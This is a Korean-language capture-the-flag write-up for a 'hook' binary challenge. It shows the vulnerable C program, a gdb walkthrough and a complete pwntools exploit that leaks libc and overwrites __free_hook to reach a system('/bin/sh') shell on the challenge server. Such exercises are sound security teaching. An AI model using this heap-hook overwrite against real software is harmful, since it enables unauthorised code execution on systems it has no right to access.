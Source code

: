 ## hook
---

```c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

<br><br>

## Solution
---

```
Ubuntu 16.04
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<br>

```
   0x00000000004009e4 <+154>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004009e8 <+158>:   mov    rax,QWORD PTR [rax]
   0x00000000004009eb <+161>:   mov    rdx,rax
   0x00000000004009ee <+164>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004009f2 <+168>:   mov    rax,QWORD PTR [rax+0x8]
   0x00000000004009f6 <+172>:   mov    QWORD PTR [rdx],rax
   0x00000000004009f9 <+175>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004009fd <+179>:   mov    rdi,rax
```

<br>

위 부분은 read를 실행하고 난 뒤, free를 하기 전까지의 과정이다.

```*(long *)*ptr = *(ptr+1);``` 이 코드에서 오버라이트를 성공시켜줘야 하는데, free가 호출될 때, 코드에 있는 system 함수를 실행하도록 해보겠다.

<br>

입력으로 aaaabbbbccccdddd를 넣었다.

<br>

```
0x4009e4 <main+154>    mov    rax, qword ptr [rbp - 0x10]
--> *RAX  0x6022a0 ◂— 'aaaabbbbccccdddd\n'

--> rax에 rbp-0x10이 가리키고 있는 주소를 넣어준다.
```

<br>

```
0x4009e8 <main+158>    mov    rax, qword ptr [rax]
--> ```*RAX  0x6262626261616161 ('aaaabbbb')```

--> 0x6022a0가 가리키고 있는 값의 64비트(8바이트)를 가져온다.
```

<br>

```
0x4009eb <main+161>    mov    rdx, rax
--> *RDX  0x6262626261616161 ('aaaabbbb')

--> rdx에 rax 값을 넣어준다.

이 부분은 ```*(long *)*ptr```가 된다.
```

<br>

즉, 입력값으로 aaaabbbb 부분에 free_hook 변수 값을 준다면,  ```*(long *)*ptr```는 free_hook을 가리키게 될 것이다.

<br>

```
0x4009ee <main+164>    mov    rax, qword ptr [rbp - 0x10]
0x4009f2 <main+168>    mov    rax, qword ptr [rax + 8]
--> *RAX  0x6464646463636363 ('ccccdddd')

--> rax에 rbp-0x10이 가리키는 주소에 있는 값에서 +8한 값이 가리키는 주소 값을 넣는다.

이 부분은 *(ptr+1)가 된다.
```

<br>

이 부분까지 진행되면 ```0x4009f6 <main+172>    mov    qword ptr [rdx], rax```를 진행하면 Segmentation fault가 일어나서 더 이상 실행이 안된다.

이제 공격을 진행해보면 입력을 free hook 변수 주소값과 덮어쓸 코드에 있는 system 함수의 주소를 넣어주면 될 것이다.

여기서 system 함수 주소는 edi에 binsh 문자열을 넣어주는 주소인 0x400a11을 사용해야 한다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',10450)
libc = ELF('./libc.so.6')

p.recvuntil(b'stdout: ')

stdout = int(p.recvn(14),16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']
binsh_system = 0x400a11 # NO PIE

print("@ stdout : ",hex(stdout))
print("@ libc_base: ", hex(libc_base))
print("@ free_hook: ", hex(free_hook))

p.sendlineafter(b'Size: ', b'16')

payload = p64(free_hook) + p64(binsh_system)
p.sendlineafter(b'Data: ', payload)

p.interactive()
```

